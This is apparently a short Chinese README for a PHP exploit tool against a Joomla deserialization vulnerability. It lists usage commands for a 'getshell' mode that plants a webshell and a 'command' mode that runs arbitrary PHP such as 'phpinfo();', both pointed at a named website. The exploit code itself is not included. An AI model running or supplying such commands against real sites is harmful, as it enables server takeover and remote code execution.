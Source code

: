 
#joomla 反序列化漏洞 getshell&amp;&amp;命令执行
--------------- Joomla 反序列化漏洞利用工具---------------

    1.记得命令后头加分号，命令用单引号括起来。       
    2.仅供学习php代码使用         

Usage:

`
php joomla.php http://xatusec.org getshell
`

`
php joomla.php http://xatusec.org command 'phpinfo();'
`

-------------------Powered by Whirlwind-------------------
